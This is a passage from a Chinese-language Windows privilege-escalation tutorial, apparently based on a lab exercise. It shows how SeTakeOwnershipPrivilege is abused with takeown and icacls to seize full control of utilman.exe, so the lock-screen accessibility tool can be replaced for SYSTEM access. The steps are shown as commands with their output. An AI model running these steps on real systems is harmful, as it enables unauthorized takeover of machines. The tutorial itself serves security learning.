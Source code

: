 Windows 中依旧只有高完整度权限才有此权限。

```plaintext
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
......
```

通常用来替换以 SYSTEM 权限运行的 exe，或者对系统高权限运行软件（如 Listary）进行 DLL 劫持。这里演示 Priv2Admin 提到的做法对锁屏状态下的辅助功能 utilman.exe 进行替换，适合目标有 RDP 或者能接触实体机的场景下利用。

先获取 utilman.exe 所有者。

```plaintext
C:\Windows\system32>takeown /f C:\windows\system32\utilman.exe

SUCCESS: The file (or folder): "C:\windows\system32\utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
```

默认情况下当前用户是没权进行更改操作的。需要赋予权限。

```plaintext
C:\Windows\system32>icacls C:\windows\system32\utilman.exe
C:\windows\system32\utilman.exe NT SERVICE\TrustedInstaller:(F)
                                BUILTIN\Administrators:(RX)
                                NT AUTHORITY\SYSTEM:(RX)
                                BUILTIN\Users:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)

Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>whoami
raingray\gbb

C:\Windows\system32>icacls C:\windows\system32\utilman.exe /grant %username%:F
processed file: C:\windows\system32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>icacls C:\windows\system32\utilman.exe
C:\windows\system32\utilman.exe raingray\gbb:(F)
                                NT SERVICE\TrustedInstaller:(F)
                                BUILTIN\Administrators:(RX)
                                NT AUTHORITY\SYSTEM:(RX)
                                BUILTIN\Users:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)

Successfully processed 1 files; Failed processing 0 files
```
